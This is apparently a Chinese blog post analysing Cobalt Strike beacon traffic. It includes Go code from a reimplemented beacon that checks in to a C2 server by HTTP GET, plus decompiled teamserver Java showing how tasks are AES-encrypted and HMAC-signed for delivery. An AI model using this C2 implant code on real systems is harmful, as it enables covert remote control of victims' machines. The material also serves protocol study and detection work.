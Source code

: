     
    func FirstBlood() bool {    encryptedMetaInfo = EncryptedMetaInfo()//源数据封包并加密    for {        respBytes := HttpGet(config.GetUrl, encryptedMetaInfo)//http封包并发送        if respBytes != nil {            break        }        time.Sleep(time.Duration(config.Sleep) * time.Millisecond)    }    return true}

  
测试结果，成功上线：  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134447.png)  
  

 **1.2 下发Beacon的task数据**

  
上面介绍了beacon上线的通信数据，现在我们来看ts给beacon下发命令和执行结果返回的详细情况。  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134448.png)  
如上图是一次task下发到返回执行结果的过程：  
1\. beacon使用http get请求向ts发送上线数据的同时，获取ts返回的http get response即为封包的task任务数据。  
2\. 根据配置的profile信息，删除prepend data和append data得到AES加密的task数据。  
3\. AES解密task数据，并根据实际的task任务的类型执行相应的操作，并获得执行结果。  
4\. 将执行结果AES加密，并封包global key计算获得的HMAC，再进行base64编码。  
5\. 将执行结果封包后的数据加上prepend data和append data。  
6\. 最后进行http post数据封包，再发送给ts。  
 **1.2.1** **封装** **task** **任务数据 ****  
**当ts在收到http get请求之后，判断是否是beacon源数据返回之后就会查看ts的任务列表，如果有任
务，就会加密发送。decompiled_src/beacon/BeaconHTTP.java

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    BeaconEntry var7 = BeaconHTTP.this.controller.process_beacon_metadata(BeaconHTTP.this.listener, var5, CommonUtils.toBytes(var6), (String)null, 0); //解析http get返回的源数据if (var7 == null) {    MudgeSanity.debugRequest(".http-get.client.metadata", var3, var4, "", var1, var5);    return new byte[0];} else {    //获取beacon队列任务    byte[] var8 = BeaconHTTP.this.controller.dump(var7.getId(), 921600, 1048576);    //任务队列有任务    if (var8.length > 0) {        //加密任务数据        byte[] var9 = BeaconHTTP.this.controller.getSymmetricCrypto().encrypt(var7.getId(), var8);        return var9;    } else {        return new byte[0];    }}

  
跟进encrypt函数就是aes加密task任务数据。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //var1 bid//var2 task任务数据（taskType+taskBuffer）public byte[] encrypt(String var1, byte[] var2) {    try {        if (!this.isReady(var1)) {            CommonUtils.print_error("encrypt: No session for '" + var1 + "'");            return new byte[0];        }  
            ByteArrayOutputStream var3 = new ByteArrayOutputStream(var2.length + 1024);        DataOutputStream var15 = new DataOutputStream(var3);        SecretKey var5 = this.getKey(var1); //获取对应beacon的AESkey        SecretKey var6 = this.getHashKey(var1);//获取对应beacon的hashmac        var3.reset();        var15.writeInt((int)(System.currentTimeMillis() / 1000L)); //写入时间戳        var15.writeInt(var2.length);    //写入task任务数据长度        var15.write(var2, 0, var2.length);        this.pad(var3);        Object var7 = null;        byte[] var16;        synchronized(this.in) {            var16 = this.do_encrypt(var5, var3.toByteArray()); //AES加密任务数据        }  
            Object var8 = null;        byte[] var17;        synchronized(this.mac) {            this.mac.init(var6);            var17 = this.mac.doFinal(var16); //hashmac        }  
            ByteArrayOutputStream var9 = new ByteArrayOutputStream();        var9.write(var16);//写入加密后的task数据        var9.write(var17, 0, 16);//写入hashmac        byte[] var10 = var9.toByteArray();        return var10;    } catch (InvalidKeyException var13) {        MudgeSanity.logException("encrypt failure for: " + var1, var13, false);        CommonUtils.print_error_file("resources/crypto.txt");        MudgeSanity.debugJava();        SecretKey var4 = this.getKey(var1);        if (var4 != null) {            CommonUtils.print_info("Key's algorithm is: '" + var4.getAlgorithm() + "' ivspec is: " + this.ivspec);        }    } catch (Exception var14) {        MudgeSanity.logException("encrypt failure for: " + var1, var14, false);    }  
        return new byte[0];}

